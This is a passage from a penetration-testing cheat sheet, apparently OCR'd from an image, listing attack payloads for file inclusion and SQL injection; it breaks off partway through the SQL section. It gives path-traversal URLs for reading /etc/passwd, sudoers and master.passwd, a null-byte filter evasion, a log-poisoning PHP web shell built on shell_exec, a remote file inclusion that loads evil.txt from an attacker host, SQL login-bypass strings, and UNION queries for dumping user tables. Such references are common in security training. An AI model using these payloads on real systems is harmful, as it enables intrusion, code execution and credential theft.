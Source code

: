     -   LFI OSX Files:  
        /etc/fstab  
        /etc/master.passwd  
        /etc/resolv.conf  
        /etc/sudoers  
        /etc/sysctl.conf

    -   LFI - Download passwords file  
        [*http://$ip/index.php?page=/etc/passwd*](about:blank)  
        [*http://$ip/index.php?file=../../../../etc/passwd*](about:blank)

    -   LFI - Download passwords file with filter evasion  
        [*http://$ip/index.php?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd*](about:blank)

    -   Local File Inclusion - In versions of PHP below 5.3 we can
        terminate with null byte  
        GET
        /addguestbook.php?name=Haxor&comment=Merci!&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00

    -   Contaminating Log Files &lt;?php echo
        shell\_exec($\_GET\['cmd'\]);?&gt;

    -   For a Remote File Inclusion look for php code that is not
        sanitized and passed to the PHP include function and the php.ini
        file must be configured to allow remote files
        /etc/php5/cgi/php.ini - “allow\_url\_fopen” and
        “allow\_url\_include both set to “on”  
        include($\_REQUEST\["file"\].".php");

    -   Remote File Inclusion  
        [http://$ip/addguestbook.php?name=a&comment=b&LANG=http://$localip/evil.txt](http://192.168.11.35/addguestbook.php?name=a&comment=b&LANG=http://192.168.10.5/evil.txt)  
        &lt;?php echo shell\_exec("ipconfig");?&gt;

-   <span id="_mgu7e3u7svak" class="anchor"><span id="_Toc480741820" class="anchor"></span></span>Database Vulnerabilities
    ----------------------------------------------------------------------------------------------------------------------

    -   MySQL SQL

    -   Grab password hashes from a web application mysql database
        called “Users” - once you have the MySQL root username and
        password  
        mysql -u root -p -h $ip  
        use "Users"  
        show tables;  
        select \* from users;

    -   Authentication Bypass  
        name='wronguser' or 1=1;\#  
        name='wronguser' or 1=1 LIMIT 1;\#

    -   Enumerating the Database  
        [http://$ip/comment.php?id=738](http://192.168.11.35/comment.php?id=738)’  
        Verbose error message?  
        http://$ip/comment.php?id=738 order by 1  
        http://$ip/comment.php?id=738 union all select 1,2,3,4,5,6  
        Determine MySQL Version:  
        http://$ip/comment.php?id=738 union all select
        1,2,3,4,@@version,6  
        current user being used for the database connection  
        http://$ip/comment.php?id=738 union all select
        1,2,3,4,user(),6  
        we can enumerate database tables and column structures  
        http://$ip/comment.php?id=738 union all select
        1,2,3,4,table\_name,6 FROM information\_schema.tables  
        target the users table in the database  